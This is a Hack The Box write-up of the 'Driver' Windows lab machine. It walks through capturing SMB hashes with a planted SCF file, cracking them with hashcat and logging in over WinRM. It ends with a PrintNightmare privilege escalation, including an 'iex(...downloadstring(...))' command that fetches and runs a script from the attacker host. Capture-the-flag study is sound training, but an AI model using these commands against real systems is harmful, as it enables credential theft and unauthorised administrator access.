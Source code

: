 ```yaml
---
title: "Driver — Hack The Box [Write-up]"
author: 0x3ashry
description: "Writeup for Driver Hackthebox Machine"
date: 2022-05-31 18:00:00 +0200
categories: [HackTheBox]
tags: [HTB, Windows]
---
```


![](/img/HTB/Driver/Driver.png)

Driver is an easy rated HTB Windows machine, but it discussed a new techniques in exploiting SMB shares and winRM service in addition to privesc using CVE-2021-34527 - PrintNightmare LPE (PowerShell).

Let's get started. 

#### Used Tools:
- Nmap
- Metasploit
- Hashcat
- Evil-winrm 
- Invoke-WebRequest
- 


## 1. SCANNING & ENUMERATION

I will start with nmap and the -A parameter to enable OS detection, version detection, script scanning, and traceroute, -p- parameter to scan all the ports not the top 1000 only and append the output to tee command which save the in a file named “nmap” and also show the output on the screen.

![](/img/HTB/Driver/img (1).png)

We found 4 opened ports:
- 80 for http
- 135 for RPC client-server communication
- 445 for SMB
- 5985 for Windows Remote Management (WinRM)

I started with the web page and directly after browsing I found firefox prompting me to enter username and password.

![](/img/HTB/Driver/img (2).png)

I tried by default `admin:admin` and boom it entered !!!

It's a Multifunction printer (MFP) Firmware Update site.

![](/img/HTB/Driver/img (3).png)

Nothing works in the site except the `Firmware Updates tab`, it let's me choose the printer model and upload the update file.

It also says: "Select printer model and upload the respective firmware update to our file share" which means that any uploaded file will directly be uploaded to the file share (SMB), also "Our testing team will review the uploads manually and initiates the testing soon" which means that there is someone who will review (open the update file).

![](/img/HTB/Driver/img (4).png)

Let's continue, What about SMB !!!

I tried to list the SMB shares but it denies for unauthorized users

![](/img/HTB/Driver/img (5).png)


## 2. EXPLOITATION:

I stucked here for a while and then found this article: `https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/`

Which states that if I created an `.SCF` file which will be executed when the user browse it and Adding the `@` symbol in front of the filename will place the .scf file on the top of the share drive.

create @update_MFP.scf:

```
[Shell]
Command=2
IconFile=\\10.10.16.10\share\update.ico
[Taskbar]
Command=ToggleDesktop
```

![](/img/HTB/Driver/img (6).png)

Then Metasploit Framework has a module which can be used to capture challenge-response password hashes from SMB clients.

```bash
sudo msfconsole -q
use auxiliary/server/capture/smb
run
```

![](/img/HTB/Driver/img (7).png)

upload the update_MFP file to the website in the Firmware Updates tab.

![](/img/HTB/Driver/img (8).png)

Return back to the metasploit and see the if it captures anything...

![](/img/HTB/Driver/img (9).png)

Now we want to crack the hash we got for the user `tony`...

First put the hash in a `hash.txt` file and then execute `hashcat` with 5600 parameter for the NetNTLMv2 hash type and used rockyou.txt wordlist

```bash
hashcat -m 5600 hashcat.txt /usr/share/wordlists/rockyou.txt
```

![](/img/HTB/Driver/img (10).png)

Hashcat successfully cracked the NetNTLMv2 hash.

Now we have creds: `tony:liltony`

![](/img/HTB/Driver/img (11).png)

I tried using the new creds to connect to the SMB share but failed...

![](/img/HTB/Driver/img (12).png)

Remember port 5985 for the WinRM Service !!

I found in HackTricks website a trick to gain access using `evil-winrm` tool

link: `https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm`

```bash
evil-winrm -u tony -p 'liltony' -i 10.10.11.106
```

BOOOOOOOOM ! We got the user flag.

![](/img/HTB/Driver/img (13).png)


## 3. PRIVILEGE ESCALATION:

Let's upload WinPEAS script and see if there is a potential way to escalate our privileges...

Ran python server on my local machine and used `Invoke-WebRequest` on Driver to download WinPEAS from my local machine

```bash
Invoke-WebRequest -Uri http://10.10.16.10/winPEASx64.exe -OutFile winPEAS.exe
```

Then Run it...

![](/img/HTB/Driver/img (14).png)

I found in the PowerShell history file at: `C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

![](/img/HTB/Driver/img (15).png)

Reading the file, there is a command ran which adds printer to the system of type `RICOH_PCL6`

![](/img/HTB/Driver/img (16).png)

After some research I found:

`CVE-2021-34527` which is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."

Link: `https://github.com/JohnHammond/CVE-2021-34527`

This exploit is pretty sneaky, what is does is it allows us to create a new user with administrator rights onto the system.

Getting the exploit and opening a python server on my local host...

![](/img/HTB/Driver/img (17).png)

After downloading the Powershell script and executing it, it prevents me because running scripts is disabled on this system !!!

![](/img/HTB/Driver/img (18).png)

So I had to find another way...

After some research I found a sneaky way in `hadrian3689` write-up: `https://readysetexploit.wordpress.com/2022/02/26/hack-the-box-driver/`, which says:

Back in our WinRM session, let us go to a folder where we can easily download like the Downloads directory. And run the following Powershell command to download the Powershell script **onto memory** `iex(new-object net.webclient).downloadstring('http://10.10.16.10/nightmare.ps1')`

```bash
iex(new-object net.webclient).downloadstring('http://10.10.16.10/nightmare.ps1')
Invoke-Nightmare -NewUser "0x3ashry" -NewPassword "AdminAdmin"
```

![](/img/HTB/Driver/img (19).png)

Exiting our WinRM session and reconnecting with the new credentials...

![](/img/HTB/Driver/img (20).png)

BOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOM !!!! Now we are root :D

Thank you so much for reading and I hope you learned a lot as I did ❤

#### ***0x3ashry***